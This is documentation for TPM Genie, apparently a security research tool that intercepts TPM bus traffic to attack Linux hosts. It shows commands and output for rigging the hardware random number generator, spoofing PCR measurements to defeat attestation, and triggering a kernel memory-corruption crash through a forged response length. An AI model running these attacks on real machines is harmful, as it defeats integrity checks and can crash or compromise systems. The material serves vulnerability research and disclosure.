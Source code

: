 # TPM Attack Demonstrations

TPM Genie comes pre-configured to conduct a number of attacks against the Linux kernel. These different attack modes are explained below.



## Undermining the Hardware Random Number Generator

To demonstrate attacks against the TPM hardware RNG, first ensure that the `tpm_rng` kernel module is loaded (exec `utils/load_hw_rng.sh` on the Raspberry Pi).

When the TPM is in default passthrough mode, the returned data appears to be suitably random:

```
$ sudo dd if=/dev/hwrng count=1 bs=16 | hexdump
1+0 records in
1+0 records out
16 bytes (16 B) copied, 0.152077 s, 0.1 kB/s
0000000 01 91 55 54 57 06 15 be 4b e3 ba b7 ca 5a c5 a8
0000010
```

However, when TPM Genie is allowed to interpose the `TPM_ORD_GetRandom` command ordinal (press `m` key in the console until `Alter Hardware RNG` state is entered), we observe entirely different output from the HWRNG.

```
$ sudo dd if=/dev/hwrng count=1 bs=16 | hexdump
1+0 records in
1+0 records out
16 bytes (16 B) copied, 0.152077 s, 0.1 kB/s
0000000 aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa aa
0000010
```

## Spoofing PCR Measurements

In order to demonstrate the act of spoofing PCR measurements, a few simple utilities are provided. The `utils/pcr_extend.py` and `utils/pcr_read.py` scripts can be run on the victim to interact with the `/dev/tpm0` character device and issue `TPM_ORD_PcrExtend` and `TPM_ORD_PcrRead` commands to the TPM chip.

First, we demonstrate normal operation of the PCR Extend ordinal by measuring the string “hello world” and extending the SHA-1 digest into PCR index 1.

```
$ echo -n -e “hello world” > extend_data
$ sudo python3 pcr_extend.py -i 1 -f extend_data

[*] Reading this file:        pcr_extend_data
[*] Computed this digest:     2aae6c35c94fcfb415dbe95f408b9ce91ee846ed
[*] Extending into PCR index: 1
[*] Output digest:            54c528f774ceb1f270ba5349fcabc2a1bd1f10d4

$ sudo python3 pcr_read.py -i 1

PCR  1: 54 c5 28 f7 74 ce b1 f2 70 ba 53 49 fc ab c2 a1 bd 1f 10 d4
```

Next, we demonstrate how the PCR value changes if we modify the string that is measured. The resultant digest is extended into PCR index 2.

```
$ echo -n -e “evil” > other_data
$ sudo python3 pcr_extend.py -i 2 -f extend_data

[*] Reading this file:        other_data
[*] Computed this digest:     b653891162a040e1bfe6e436bdcd93827e0c56e5
[*] Extending into PCR index: 2
[*] Output digest:            ede6e014e28a3458c1dd1aa26f0716616f77384a

$ sudo python3 pcr_read.py -i 2

PCR  2: ed 66 e0 14 e2 8a 34 58 c1 dd 1a a2 6f 07 16 61 6f 77 38 4a
```

Finally, we put TPM Genie into `SPOOF_PCR_EXTEND` mode (press the `m` key). Once again, we attempt to extend the tampered file into PCR index 3.

```
$ sudo python3 pcr_extend.py -i 3 -f other_data

[*] Reading this file:        other_data
[*] Computed this digest:     b653891162a040e1bfe6e436bdcd93827e0c56e5
[*] Extending into PCR index: 3
[*] Output digest:            54c528f774ceb1f270ba5349fcabc2a1bd1f10d4

$ python3 pcr_read.py -i 3

PCR  3: 54 c5 28 f7 74 ce b1 f2 70 ba 53 49 fc ab c2 a1 bd 1f 10 d4
```

Notice that this new PCR value (index 3) is identical to the first PCR value that was set prior to tampering with the measured file (index 1). TPM Genie has replaced the digest of the string “evil” with the digest of the string “hello world” as it was transmitted over the serial bus.

This public version of TPM Genie replaces the submitted digest with 20 bytes of `0xAA`, although it could be configured to submit any digest you wish.

## Inducing Kernel Memory Corruption

During my TPM Interposer research, I discovered a number of kernel vulnerabilities, whereby an interposer could trigger memory corruption by altering TPM response packets. The patches for these bugs are going to land in the Linux kernel `v4.16`.

TPM Genie is able to trigger one such kernel memory corruption bug out-of-the-box. Simply switch interposer modes until you arrive at the `Trigger Kernel Crash` mode. You must also ensure that the `tpm_rng` kernel module is loaded on the victim, then execute the following command:

```
$ sudo dd if=/dev/hwrng bs=1 count=64 | hexdump -C
```

You should see a crash look something like this:

```
[  300.232615] Unable to handle kernel paging request at virtual address c3487d00
[  300.234638] Unable to handle kernel paging request at virtual address 1f11141c
[  300.234645] pgd = 80004000
[  300.234655] [1f11141c] *pgd=00000000
[  300.234672] Internal error: Oops: 80000005 [#1] PREEMPT SMP ARM
[  300.234733] Modules linked in: tpm_rng cfg80211 rfkill tpm_i2c_infineon tpm spi_bcm2835 i2c_bcm2708 bcm2835_gpiom]
[  300.234745] CPU: 3 PID: 0 Comm: swapper/3 Not tainted 4.1.21-v7+ #1
[  300.234750] Hardware name: BCM2709
[  300.234757] task: b9904800 ti: b9936000 task.ti: b9936000
[  300.234768] PC is at 0x1f11141c
[  300.234786] LR is at rcu_process_callbacks+0x65c/0x7a4
[  300.234796] pc : [<1f11141c>]    lr : [<80079620>]    psr: 20000113
[  300.234796] sp : b9937e40  ip : b9214200  fp : b9937e9c
[  300.234801] r10: b9936000  r9 : b9f8fc1c  r8 : 0000000a
[  300.234807] r7 : 1f01141e  r6 : b7373a94  r5 : 00000002  r4 : 00000000
[  300.234814] r3 : 808964c0  r2 : 00000000  r1 : 1f11141e  r0 : b7373a94
```

This proof of concept works very simply. The log from TPM Genie shows exactly what has happened. The TPM hardware returned the expected number of random bytes (`64`), however, TPM Genie altered the `rng_data_len` field from `0x0040` to `0x0FFF`, resuling in a very large memory copy.

```
|        Tnsy < TPM |        | 00 00 00 40 C2 9C 65 93 DC 14 B8 BD 64 90 E0 7A
|                   |        | 2F 1E C8 84 74 57 A9 9B EC 59 9E 6D C8 F5 7E D2
|                   |        | 7B D4 BA 67 01 7D B9 DA 7A 18 22 D3 E8 1D E0 A6
|                   |        | E8 6C 5F 34 77 EA 68 FC 64 02 12 51 13 35 12 F1
|                   |        | 14 D3 F2 3E
|-------------------|--------|--------------------------------
| Host < Tnsy       |        | 00 00 0F FF 41 41 41 41 41 41 41 41 41 41 41 41
|                   |        | 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
|                   |        | 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
|                   |        | 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
|                   |        | 41 41 41 41
```


